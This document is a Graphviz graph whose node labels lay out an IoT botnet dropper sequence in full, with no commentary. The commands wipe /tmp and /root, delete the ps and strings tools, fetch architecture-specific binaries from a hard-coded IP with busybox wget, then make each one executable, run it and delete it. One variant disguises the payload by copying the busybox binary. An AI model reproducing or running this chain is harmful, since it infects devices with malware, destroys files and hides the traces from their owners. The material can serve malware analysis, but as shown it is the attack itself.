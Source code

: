 digraph {
228 [label="rm -f * "];
228 -> 228
2 [label="busybox rm -rf /tmp/* "];
2 -> 2
4 [label="busybox rm -rf /root/* "];
4 -> 4
6 [label="busybox rm -rf /usr/bin/strings "];
6 -> 6
8 [label="busybox rm -rf /usr/bin/ps "];
8 -> 8
10 [label="busybox wget http://208.67.1.187/jackmymipsel "];
10 -> 10
12 [label="busybox chmod +x jackmymipsel "];
12 -> 14 [label=";,"];
14 [label="./jackmymipsel "];
14 -> 16 [label=";,"];
16 [label="busybox rm -f jackmymipsel* "];
16 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
110 [label="busybox wget http://208.67.1.187/jackmymips "];
110 -> 110
22 [label="busybox chmod +x jackmymips "];
22 -> 124 [label=";,"];
124 [label="./jackmymips "];
124 -> 126 [label=";,"];
126 [label="busybox rm -f jackmymips* "];
126 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
130 [label="busybox wget http://208.67.1.187/jackmysh4 "];
130 -> 130
32 [label="busybox chmod +x jackmysh4 "];
32 -> 144 [label=";,"];
144 [label="./jackmysh4 "];
144 -> 146 [label=";,"];
146 [label="busybox rm -f jackmysh4* "];
146 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
150 [label="busybox wget http://208.67.1.187/jackmyx86 "];
150 -> 150
42 [label="busybox chmod +x jackmyx86 "];
42 -> 164 [label=";,"];
164 [label="./jackmyx86 "];
164 -> 166 [label=";,"];
166 [label="busybox rm -f jackmyx86* "];
166 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
170 [label="busybox wget http://208.67.1.187/jackmyarmv6 "];
170 -> 170
52 [label="busybox chmod +x jackmyarmv6 "];
52 -> 184 [label=";,"];
184 [label="./jackmyarmv6 "];
184 -> 186 [label=";,"];
186 [label="busybox rm -f jackmyarmv6* "];
186 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
190 [label="busybox wget http://208.67.1.187/jackmyi686 "];
190 -> 190
62 [label="busybox chmod +x jackmyi686 "];
62 -> 204 [label=";,"];
204 [label="./jackmyi686 "];
204 -> 206 [label=";,"];
206 [label="busybox rm -f jackmyi686* "];
206 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
210 [label="busybox wget http://208.67.1.187/jackmypowerpc "];
210 -> 210
72 [label="busybox chmod +x jackmypowerpc "];
72 -> 224 [label=";,"];
224 [label="./jackmypowerpc "];
224 -> 226 [label=";,"];
226 [label="busybox rm -f jackmypowerpc* "];
226 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
80 [label="busybox wget http://208.67.1.187/jackmyi586 "];
80 -> 80
82 [label="busybox chmod +x jackmyi586 "];
82 -> 84 [label=";,"];
84 [label="./jackmyi586 "];
84 -> 86 [label=";,"];
86 [label="busybox rm -f jackmyi586* "];
86 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
90 [label="busybox wget http://208.67.1.187/xlegal1 "];
90 -> 90
212 [label="busybox cp /bin/busybox ./ "];
212 -> 94 [label=";,"];
94 [label="busybox cat xlegal1 busybox "];
94 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
98 [label="busybox rm -f xlegal1 "];
98 -> 100 [label=";,"];
100 [label="busybox cp busybox xlegal1 "];
100 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 104 [label=";,"];
104 [label="./xlegal1 "];
104 -> 106 [label=";,"];
106 [label="busybox rm -f xlegal1* "];
106 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
110 [label="busybox wget http://208.67.1.187/jackmymips "];
110 -> 110
212 [label="busybox cp /bin/busybox ./ "];
212 -> 114 [label=";,"];
114 [label="busybox cat jackmymips busybox "];
114 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
118 [label="busybox rm -f jackmymips "];
118 -> 120 [label=";,"];
120 [label="busybox cp busybox jackmymips "];
120 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 124 [label=";,"];
124 [label="./jackmymips "];
124 -> 126 [label=";,"];
126 [label="busybox rm -f jackmymips* "];
126 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
130 [label="busybox wget http://208.67.1.187/jackmysh4 "];
130 -> 130
212 [label="busybox cp /bin/busybox ./ "];
212 -> 134 [label=";,"];
134 [label="busybox cat jackmysh4 busybox "];
134 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
138 [label="busybox rm -f jackmysh4 "];
138 -> 140 [label=";,"];
140 [label="busybox cp busybox jackmysh4 "];
140 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 144 [label=";,"];
144 [label="./jackmysh4 "];
144 -> 146 [label=";,"];
146 [label="busybox rm -f jackmysh4* "];
146 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
150 [label="busybox wget http://208.67.1.187/jackmyx86 "];
150 -> 150
212 [label="busybox cp /bin/busybox ./ "];
212 -> 154 [label=";,"];
154 [label="busybox cat jackmyx86 busybox "];
154 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
158 [label="busybox rm -f jackmyx86 "];
158 -> 160 [label=";,"];
160 [label="busybox cp busybox jackmyx86 "];
160 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 164 [label=";,"];
164 [label="./jackmyx86 "];
164 -> 166 [label=";,"];
166 [label="busybox rm -f jackmyx86* "];
166 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
170 [label="busybox wget http://208.67.1.187/jackmyarmv6 "];
170 -> 170
212 [label="busybox cp /bin/busybox ./ "];
212 -> 174 [label=";,"];
174 [label="busybox cat jackmyarmv6 busybox "];
174 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
178 [label="busybox rm -f jackmyarmv6 "];
178 -> 180 [label=";,"];
180 [label="busybox cp busybox jackmyarmv6 "];
180 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 184 [label=";,"];
184 [label="./jackmyarmv6 "];
184 -> 186 [label=";,"];
186 [label="busybox rm -f jackmyarmv6* "];
186 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
190 [label="busybox wget http://208.67.1.187/jackmyi686 "];
190 -> 190
212 [label="busybox cp /bin/busybox ./ "];
212 -> 194 [label=";,"];
194 [label="busybox cat jackmyi686 busybox "];
194 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
198 [label="busybox rm -f jackmyi686 "];
198 -> 200 [label=";,"];
200 [label="busybox cp busybox jackmyi686 "];
200 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 204 [label=";,"];
204 [label="./jackmyi686 "];
204 -> 206 [label=";,"];
206 [label="busybox rm -f jackmyi686* "];
206 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
210 [label="busybox wget http://208.67.1.187/jackmypowerpc "];
210 -> 210
212 [label="busybox cp /bin/busybox ./ "];
212 -> 214 [label=";,"];
214 [label="busybox cat jackmypowerpc busybox "];
214 -> 216 [label=";,"];
216 [label="busybox "];
216 -> 216
218 [label="busybox rm -f jackmypowerpc "];
218 -> 220 [label=";,"];
220 [label="busybox cp busybox jackmypowerpc "];
220 -> 222 [label=";,"];
222 [label="busybox rm -f busybox "];
222 -> 224 [label=";,"];
224 [label="./jackmypowerpc "];
224 -> 226 [label=";,"];
226 [label="busybox rm -f jackmypowerpc* "];
226 -> 228 [label=";,"];
228 [label="rm -f * "];
228 -> 228
230 [label="sleep 1 "];
230 -> 230
}
